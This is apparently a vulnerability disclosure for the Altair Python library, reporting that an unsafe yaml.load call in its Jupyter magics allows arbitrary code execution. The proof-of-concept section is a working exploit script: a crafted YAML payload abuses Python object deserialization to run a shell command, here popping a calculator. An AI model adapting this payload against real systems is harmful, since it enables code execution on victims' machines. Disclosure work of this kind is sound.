### ⚙️ Description *
Altair is a declarative statistical visualization library for Python. With Altair, you can spend more time understanding your data and its meaning. Altair's API is simple, friendly and consistent and built on top of the powerful Vega-Lite JSON specification. This elegant simplicity produces beautiful and effective visualizations with a minimal amount of code. Altair is developed by Jake Vanderplas and Brian Granger in close collaboration with the UW Interactive Data
### 💻 Technical Description *
Yaml.load was exploitable to Arbitrary Code Execution
### 🐛 Proof of Concept (PoC) *
* run the exploit code
```
import os
# installation
os.system("pip install altair vega_datasets")
#
import altair._magics as magics
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
with open("exploit.yml","w+") as cell :
    cell.write(payload)
with open("exploit.yml","r+") as cell :
    magics.vegalite("1",cell)
```
* calc will be popped after executing the exploit code. 
